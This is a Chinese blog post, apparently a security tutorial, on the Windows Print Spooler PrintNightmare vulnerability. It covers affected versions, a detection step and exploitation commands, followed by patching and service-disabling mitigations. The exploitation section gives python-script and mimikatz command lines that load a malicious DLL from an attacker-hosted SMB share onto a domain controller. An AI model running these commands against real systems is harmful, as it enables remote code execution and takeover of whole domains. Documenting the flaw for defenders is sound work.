 **目录**

[一：漏洞概述](#t0 "一：漏洞概述")

[二：影响范围](#t1 "二：影响范围")

[三：漏洞利用](#t2 "三：漏洞利用")

[使用python脚本攻击](#t3 "使用python脚本攻击")

[使用mimikatz攻击](#t4 "使用mimikatz攻击")

[四：漏洞防护](#t5 "四：漏洞防护")

[4.1 官方升级](#t6 "4.1 官方升级")

[4.2 临时防护措施](#t7 "4.2 临时防护措施")

* * *

一：漏洞概述
------

       2021年6月9日，微软发布6月安全更新补丁，修复了50个安全漏洞，其中包括一个Windows Print Spooler权限提升漏洞（CVE-2021-1675），该漏洞被标记为[提权](https://so.csdn.net/so/search?q=%E6%8F%90%E6%9D%83&spm=1001.2101.3001.7020)漏洞。普通用户可以利用此漏洞以管理员身份在运行打印后台处理程序服务的系统上执行代码。然而在6月21日，微软又将该漏洞升级为远程代码执行漏洞。

      2021年6月29日，有安全研究员在github公布了打印机漏洞利用exp。但是令人没想到的是，该漏洞利用exp针对的漏洞是一个与CVE-2021-1675类似但不完全相同的漏洞，并且微软针对该漏洞并没有推送更新补丁，所以也就意味着这是一个0day漏洞，这个0day漏洞被称为PrintNightmare，最新的漏洞编号为CVE-2021-34527。

        Print Spooler是Windows系统中用于管理打印相关事务的服务，在Windows系统中用于后台执行打印作业并处理与打印机的交互，管理所有本地和网络打印队列及控制所有打印工作。该服务对应的进程 spoolsv.exe 以SYSTEM权限执行，其设计中存在的一个严重缺陷，由于 SeLoadDriverPrivilege 中鉴权存在代码缺陷，参数可以被攻击者控制，普通用户可以通过 RPC 触发 RpcAddPrinterDrive 绕过安全检查并写入恶意驱动程序。如果域控存在此漏洞，域中普通用户即可通过连接域控 Spooler 服务，向域控中添加恶意驱动，从而控制整个域环境。

二：影响范围
------

**受影响版本**

*   Windows Server 2012 R2 (Server Core installation)
*   Windows Server 2012 R2
*   Windows Server 2012 (Server Core installation)
*   Windows Server 2012
*   Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
*   Windows Server 2008 R2 for x64-based Systems Service Pack 1
*   Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
*   Windows Server 2008 for x64-based Systems Service Pack 2
*   Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
*   Windows Server 2008 for 32-bit Systems Service Pack 2
*   Windows RT 8.1
*   Windows 8.1 for x64-based systems
*   Windows 8.1 for 32-bit systems
*   Windows 7 for x64-based Systems Service Pack 1
*   Windows 7 for 32-bit Systems Service Pack 1
*   Windows Server 2016  (Server Core installation)
*   Windows Server 2016
*   Windows 10 Version 1607 for x64-based Systems
*   Windows 10 Version 1607 for 32-bit Systems
*   Windows 10 for x64-based Systems
*   Windows 10 for 32-bit Systems
*   Windows Server, version 20H2 (Server Core Installation)
*   Windows 10 Version 20H2 for ARM64-based Systems
*   Windows 10 Version 20H2 for 32-bit Systems
*   Windows 10 Version 20H2 for x64-based Systems
*   Windows Server, version 2004 (Server Core installation)
*   Windows 10 Version 2004 for x64-based Systems
*   Windows 10 Version 2004 for ARM64-based Systems
*   Windows 10 Version 2004 for 32-bit Systems
*   Windows 10 Version 21H1 for 32-bit Systems
*   Windows 10 Version 21H1 for ARM64-based Systems
*   Windows 10 Version 21H1 for x64-based Systems
*   Windows 10 Version 1909 for ARM64-based Systems
*   Windows 10 Version 1909 for x64-based Systems
*   Windows 10 Version 1909 for 32-bit Systems
*   Windows Server 2019  (Server Core installation)
*   Windows Server 2019
*   Windows 10 Version 1809 for ARM64-based Systems
*   Windows 10 Version 1809 for x64-based Systems
*   Windows 10 Version 1809 for 32-bit Systems

三：漏洞利用
------

**漏洞过程**

首先我们搭建一个SMB匿名共享，放我们的恶意dll文件。

工具运行后会先检测C:\\Windows\\System32\\DriverStore\\FileRepository目录下 ntprint.inf\_amd64\_xx 文件名，自动替换。

![](https://img-blog.csdnimg.cn/2021070114411714.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后远程拉取我们设置的匿名共享的恶意dll文件：

*   py脚本会将我们的恶意dll文件传到域控的 C:\\Windows\\System32\\spool\\drivers\\x64\\3\\ 目录下并执行。
*   而mimikatz则是将我们的恶意dll文件传到域控的 C:\\Windows\\System32\\spool\\drivers\\x64\\old\\2\\ 目录下并执行(会创建old\\2\\目录)

### 检测是否存在漏洞

先检测目标机器是否开启MS-RPRN服务，存在即可以尝试利用：

```
python3 rpcdump.py @10.211.55.14 | grep MS-RPRN
```


![](https://img-blog.csdnimg.cn/20210701151256802.png)

### 使用python脚本攻击

```
python3 CVE-2021-1675.py xie.com/test:P@ss1234@10.211.55.14 '\\10.211.55.7\share\1.dll'
```


![](https://img-blog.csdnimg.cn/20210701111355549.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### 使用mimikatz攻击

```
mimikatz.exe      
misc::printnightmare /server:10.211.55.14 /library:\\10.211.55.7\share\1.dll
```


![](https://img-blog.csdnimg.cn/20210701111907271.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

实战测试攻击Windows Server2016、2019均能成功上线。Server2012只能上传恶意dll，不能执行上线。

四：漏洞防护
------

### 4.1 官方升级

目前微软官方已针对支持的系统版本发布了修复该漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：

[Security Update Guide - Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675 "Security Update Guide - Microsoft Security Response Center")

注：由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。

右键点击Windows图标，选择“设置(N)”，选择“更新和安全”-“Windows更新”，查看该页面上的提示信息，也可点击“查看更新历史记录”查看历史更新情况。

针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。

### 4.2 临时防护措施

若相关用户暂时无法进行补丁更新，可通过禁用Print Spooler服务来进行缓解：

一：在服务应用（services.msc）中找到Print Spooler服务。

![](https://img-blog.csdnimg.cn/20210703091512255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

二：停止运行服务，同时将“启动类型”修改为“禁用”。

![](https://img-blog.csdnimg.cn/20210703091620364.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考：[Windows Print Spooler权限提升漏洞（CVE-2021-1675）通告 – 绿盟科技技术博客](http://blog.nsfocus.net/windows-print-spoolercve/ "Windows Print Spooler权限提升漏洞（CVE-2021-1675）通告 – 绿盟科技技术博客")

           [https://github.com/hhlxf/PrintNightmare](https://github.com/hhlxf/PrintNightmare "https://github.com/hhlxf/PrintNightmare")

           [Security Update Guide - Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/zh-cn/vulnerability/CVE-2021-1675 "Security Update Guide - Microsoft Security Response Center")

           [漏洞风险提示 | CVE-2021-1675 - Windows Print Spooler 远程命令执行漏洞](https://mp.weixin.qq.com/s/fVzaBhHbI6QTlnvnK0nMug "漏洞风险提示 |  CVE-2021-1675 - Windows Print Spooler 远程命令执行漏洞")